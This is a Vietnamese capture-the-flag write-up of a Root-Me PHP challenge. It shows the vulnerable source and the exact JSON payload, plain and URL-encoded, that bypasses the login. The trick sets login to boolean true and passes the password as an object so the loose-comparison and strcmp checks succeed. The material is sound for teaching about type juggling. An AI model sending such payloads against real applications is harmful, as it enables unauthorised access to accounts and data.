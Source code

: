 Ngoài những kiến thức về `type-juggling/loose-comparison` trong doc của rootme và những chall đã làm, ở đây muốn bypass authentication chúng ta phải lừa hàm strcmp. Xem source code:

```php
<?php

// $FLAG, $USER and $PASSWORD_SHA256 in secret file
require("secret.php");

// show my source code
if(isset($_GET['source'])){
    show_source(__FILE__);
    die();
}

$return['status'] = 'Authentication failed!';
if (isset($_POST["auth"]))  { 
    // retrieve JSON data
    $auth = @json_decode($_POST['auth'], true);
    
    // check login and password (sha256)
    if($auth['data']['login'] == $USER && !strcmp($auth['data']['password'], $PASSWORD_SHA256)){
        $return['status'] = "Access granted! The validation password is: $FLAG";
    }
}
print json_encode($return);
```

Vậy 2 yếu tố để bypass chúng ta đã biết 1: gán cho login giá trị boolean true thì phép so sánh `$auth['data']['login'] == $USER` sẽ luôn đúng. Phần còn lại thì theo như [link](http://danuxx.blogspot.com/2013/03/unauthorized-access-bypassing-php-strcmp.html) này, hàm strcmp có 1 lỗ hổng: vẫn return 0 khi so sánh 1 string với 1 object! Như vậy biến `auth` mình sẽ viết như sau:

> auth = {"data":{"login":true,"password":{"a":1,"b":2}}}

urlencode:

> auth=%7B%22data%22%3A%7B%22login%22%3Atrue%2C%22password%22%3A%7B%22a%22%3A1%2C%22b%22%3A2%7D%7D%7D

Nộp cùng `POST` request sẽ lấy được password